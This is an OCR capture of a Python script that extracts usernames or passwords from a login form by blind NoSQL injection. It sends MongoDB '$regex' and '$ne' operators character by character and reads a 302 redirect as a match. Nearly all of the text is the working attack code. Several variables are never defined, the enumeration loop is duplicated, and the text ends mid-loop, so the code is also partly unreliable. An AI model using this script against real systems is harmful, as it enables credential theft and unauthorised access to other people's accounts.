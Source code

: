 ```python

characters = string.printable
for ch in string.printable:
	
	if ch in "$^&*|.+\?":
		characters = characters.replace(ch, '')
loop = True
finalout = ""
count = 0

def find_username(start_char, userpass):
    for char in characters:
        payload = userpass + char
        para = {para1 + '[$regex]' : "^" + payload + ".*", para2 + '[$ne]' : '1' + otherpara}
        r = method(url, para)

        if r.status_code == 302:
            print(Fore.YELLOW + "Pattern found: " + payload)
            find_username(start_char, payload)

    print(Fore.GREEN + para1 + " found: "  + userpass)
    global count
    global finalout
    finalout +=  userpass + "\n"
    count += 1

for firstChar in characters:
    para = {para1 + '[$regex]' : "^" + firstChar + ".*", para2 + '[$ne]' : '1' + otherpara}
    r = method(url, para)
    if r.status_code != 302:
        print(Fore.MAGENTA + "No pattern starts with '" + firstChar + "'")
        continue

    print(Fore.GREEN + "Pattern found that starts with '" + firstChar + "'")
    find_username(firstChar, firstChar)

if finalout != "":
    print("\n" + str(count) + " " + para1 + "(s) found:")
    print(Fore.RED + finalout)
else:
    print(Fore.RED + "No " + para1 + " found")

for firstChar in characters:
    para = {para1 + '[$regex]' : "^" + firstChar + ".*", para2 + '[$ne]' : '1' + otherpara}
    r = method(url, para)
    if r.status_code != 302:
        print(Fore.MAGENTA + "No pattern starts with '" + firstChar + "'")
        continue

    print(Fore.GREEN + "Pattern found that starts with '" + firstChar + "'")
    userpass = firstChar
    while True:
        found_char = False
        for char in characters:
            payload = userpass + char
            para = {para1 + '[$regex]' : "^" + payload + ".*", para2 + '[$ne]' : '1' + otherpara}
            r = method(url, para)

            if r.status_code == 302:
                print(Fore.YELLOW + "Pattern found: " + payload)
                userpass = payload
                found_char = True

```
